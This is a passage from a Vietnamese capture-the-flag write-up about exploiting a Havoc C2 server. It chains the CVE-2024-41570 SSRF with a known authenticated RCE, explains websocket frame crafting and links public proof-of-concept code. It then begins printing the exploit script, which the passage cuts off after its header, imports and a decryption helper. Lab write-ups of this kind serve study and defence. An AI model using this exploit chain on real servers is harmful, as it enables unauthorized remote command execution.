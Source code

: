 ```
```

Đến đây rồi có vẻ như stuck, bởi vì đơn giản là Havoc được mở ở local và không hề expose cho chúng ta, nhưng mà trước đây mình đã từng đọc một bug SSRF của Havoc rồi nên ta có thể search thử exploit test xem sao. [PoC ở đây](https://github.com/chebuya/Havoc-C2-SSRF-poc/blob/main/exploit.py)

![image](https://github.com/user-attachments/assets/2126643d-734c-4fdb-8e98-2f46b95cc643)

Vậy là ta đã có thể verify được là Havoc version này, có dính CVE-2024-41570, mọi người nên đọc [phân tích của author](https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/), cũng là người tạo ra box này, anh này phân tích rất hay.
Nhưng mà có SSRF thì làm được gì, đơn giản là cũng chả có gì để đọc hay thậm chí là phải internal port scan ??? Mình nghĩ ngay đến việc là do đã có credentials của vài user bên trong Havoc profiles nên kết hợp với việc có SSRF, ta có thể kết nối vào port 40056 (tức là port default của Havoc server) trong local để có thực thi được command từ bên trong đó. Nghe có vẻ hợp lí, và thực sự đúng là thế, tuy nhiên thì việc triển khai lại cực kì khó và phức tạp do ta sẽ phải craft từng frame cho việc gửi request đến websocket server của Havoc.

Nói đơn thì sẽ là chain bug SSRF và [payload](https://github.com/IncludeSecurity/c2-vulnerabilities/blob/main/havoc_auth_rce/havoc_rce.py) này và làm cho nó hoạt động, ở đây ta sẽ cần nói qua chút về cấu trúc của một frame khi viết request websocket. Khi ta cần gửi payload đi dưới dạng websocket request, với trường hợp của mình bây giờ là mình sẽ cần gửi các payload dưới dạng các frame, và cấu trúc của một frame sẽ như sau:

![image](https://github.com/user-attachments/assets/ef8f85e5-2666-478c-b53c-b6f41f46c47a)

Mình hỏi ChatGPT kết hợp với google cho việc code đoạn này, và dưới đây sẽ là đoạn code mình dùng cho việc foothold:

```
# Exploit Title: Havoc C2 0.7 Unauthenticated SSRF
# Date: 2024-07-13
# Exploit Author: @_chebuya
# Software Link: https://github.com/HavocFramework/Havoc
# Version: v0.7
# Tested on: Ubuntu 20.04 LTS
# CVE: CVE-2024-41570
# Description: This exploit works by spoofing a demon agent registration and checkins to open a TCP socket on the teamserver and read/write data from it. This allows attackers to leak origin IPs of teamservers and much more.
# Github: https://github.com/chebuya/Havoc-C2-SSRF-poc
# Blog: https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/
import binascii
import hashlib
import json
import random
import struct
import requests
import argparse
import urllib3
import os
urllib3.disable_warnings()


from Crypto.Cipher import AES
from Crypto.Util import Counter

key_bytes = 32

def decrypt(key, iv, ciphertext):
    if len(key) <= key_bytes:
        for _ in range(len(key), key_bytes):
            key += b"0"

    assert len(key) == key_bytes
```